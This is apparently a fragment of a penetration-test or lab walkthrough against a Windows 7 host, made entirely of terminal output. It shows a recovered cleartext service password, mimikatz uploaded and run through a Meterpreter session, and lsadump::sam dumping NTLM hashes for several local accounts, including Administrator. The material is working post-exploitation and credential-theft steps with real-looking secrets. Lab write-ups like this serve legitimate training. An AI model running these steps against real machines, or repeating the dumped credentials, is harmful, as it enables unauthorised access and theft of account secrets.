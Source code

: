 ```

Secret  : _SC_OpenSSHd / service 'OpenSSHd' with username : .\sshd_server
cur/text: D@rj33l1ng

```

```
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
[*] uploading  : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] Uploaded 1.29 MiB of 1.29 MiB (100.0%): /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
```

```
meterpreter > shell
Process 3416 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Temp>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

```

```
mimikatz # lsadump::sam
Domain : IEWIN7
SysKey : 358fdae41881dad749ff1fefa2ce5c87
Local SID : S-1-5-21-1610009768-122519599-941061767

SAMKey : 0ad488298582e857353608d070ebc111

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : IEUser
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889

RID  : 000003e9 (1001)
User : sshd

RID  : 000003ea (1002)
User : sshd_server
  Hash NTLM: 8d0a16cfc061c3359db455d00ec27035

RID  : 000003eb (1003)
User : albedo
  Hash NTLM: 9a27e562f08a874ac72987a0ec740be0
```